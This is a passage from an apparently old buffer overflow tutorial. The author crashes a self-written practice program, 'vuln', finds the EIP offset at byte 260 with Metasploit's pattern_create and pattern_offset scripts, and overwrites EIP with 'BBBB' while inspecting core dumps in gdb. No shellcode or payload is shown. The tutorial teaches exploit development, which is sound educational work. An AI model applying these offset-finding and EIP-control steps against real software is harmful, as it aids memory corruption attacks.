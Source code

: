 Very nice! As you can see from the above 'info reg' EIP (the instruction pointer - points to the next instruction in memory) is pointing at 0x41414141 - which comes from 'AAAA'!! But what 'A' do you think it is? We did send 300 after all? We could add some 'B's etc and find it that way, but there is a much easier method - thanks to the guys at the Metasploit project. If you download Metasploit framework 3 at <http://framework.metasploit.com/msf/downloader/?id=framework-3.1.tar.gz>, I'm using 3.1 Release. You'll need ruby (and libopenssl-rub) btw - so get that installed too (apt-get install ruby libopenssl-ruby for the debian/ubuntu d00ds).

There's a script which will create a non repeating sequence of printable characters, so we can throw that into our buffer and then use another script to tell us which byte lands in EIP (or any other location we're interested in). Remember to delete the old core btw - the kernel will not overwrite the existing core dump.

    tim@blue:~/devel/buffer_overflows_101$ rm core
    tim@blue:~/devel/buffer_overflows_101$ ./vuln `./framework-3.1/tools/pattern_create.rb 300`
    before call
    argument was: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
    Segmentation fault (core dumped)
    tim@blue:~/devel/buffer_overflows_101$ gdb ./vuln ./core
    GNU gdb 6.6-debian
    Copyright (C) 2006 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i486-linux-gnu"...
    Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".

    warning: Can't read pathname for load map: Input/output error.
    Reading symbols from /lib/tls/i686/cmov/libc.so.6...done.
    Loaded symbols for /lib/tls/i686/cmov/libc.so.6
    Reading symbols from /lib/ld-linux.so.2...done.
    Loaded symbols for /lib/ld-linux.so.2
    Core was generated by `./vuln Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3'.
    Program terminated with signal 11, Segmentation fault.
    #0  0x37694136 in ?? ()
    (gdb) quit
    tim@blue:~/devel/buffer_overflows_101$ ./framework-3.1/tools/pattern_offset.rb 0x37694136 300
    260
    tim@blue:~/devel/buffer_overflows_101$

Easy uh? EIP starts on the 260'th byte! So lets fill EIP with 'B's.....

    tim@blue:~/devel/buffer_overflows_101$ ./vuln `perl -e 'print "A"x260 . "B"x4'`
    before call
    argument was: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
    Segmentation fault (core dumped)
    tim@blue:~/devel/buffer_overflows_101$ gdb ./vuln ./core
    GNU gdb 6.6-debian
    Copyright (C) 2006 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i486-linux-gnu"...
    Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
